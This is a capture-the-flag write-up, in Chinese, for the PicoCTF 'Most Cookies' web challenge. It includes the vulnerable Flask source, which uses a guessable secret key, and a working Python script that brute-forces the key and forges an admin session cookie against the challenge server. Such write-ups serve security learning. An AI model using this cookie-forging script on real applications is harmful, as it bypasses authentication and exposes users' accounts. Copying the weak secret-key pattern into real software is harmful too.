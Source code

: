 # PicoCTF - Most Cookies
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Python Flask session 學習心得](https://vocus.cc/article/634c1c7efd89780001237de9)
> 在Flask將資料儲存在session這個object裡面時，可看成是儲存在client端，因為資料其實是存在web server，每次新增內容到session就會新增一個新的cookie(cryptographically-signed cookies)，並透過secret_key做簽章。需注意的是這所謂的「secret_key」並不是用於加密(切勿儲存機密資料)，而是用來做數位簽章確認資料的完整性，簡單說是每個人都可以知道cookie裡面的資料，但只有server知道cookie是否被串改，如果被串改就無法登入該帳戶。

## Source code
:::spoiler Source Code
```python=
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```
:::
## Recon
這一題看起來很簡單，我一開始也想說只要用Burp的intruder爆破name就好，不過看了一下sauce，發現他還有一個驗證機制，就是判斷cookie的value要是admin，但看了一下cookie的形式發現有點類似JWT的感覺`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZJEZ8A.b5j77V6nA0V6dzYvM_hg3yYRgJc`(當然它不是JWT只是形式有點像)，尤其是這學期修了CNS，所以對JWT直覺有點難搞，果不其然，在sauce的第7行有設定`secret_key`當作session簽章的依據，然後在`/display`的地方進行驗證
1. `name`參數要有值且必須是`cookie_names` list的其中一種
2. session的`very_auth`的value一定要是admin
3. session的signature也要forge

## Exploit - Brute Force
```python=
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation=self.key_derivation,
			digest_method=self.digest_method
		)
		return URLSafeTimedSerializer(secret_key, salt=self.salt,
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	for name in cookie_names:
		session = {}
		session["very_auth"] = "admin"
		cookie = encodeFlaskCookie(name, session)
		r = requests.get("http://mercury.picoctf.net:6259/display", cookies={"session":cookie}, allow_redirects=False)
		if "picoCTF" in r.text:
			print(r.text)
			break
```
## Reference
[picoCTF 2021 Most Cookies](https://youtu.be/8DrqOFr_SV8)
[manageFlaskSession.py source code](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)
[Python Web Flask — 如何透過Form取得資料](https://medium.com/seaniap/python-web-flask-如何透過form取得資料-7a63ebf9ff1f)
[[Flask教學] Flask Session 使用方法和介紹](https://www.maxlist.xyz/2019/06/29/flask-session/)
[Most Cookies - Write up 1](https://picoctf2021.haydenhousen.com/web-exploitation/most-cookies)
[Most Cookies - Write up 2](https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Web%20Exploitation/Most%20Cookies/MostCookies.md)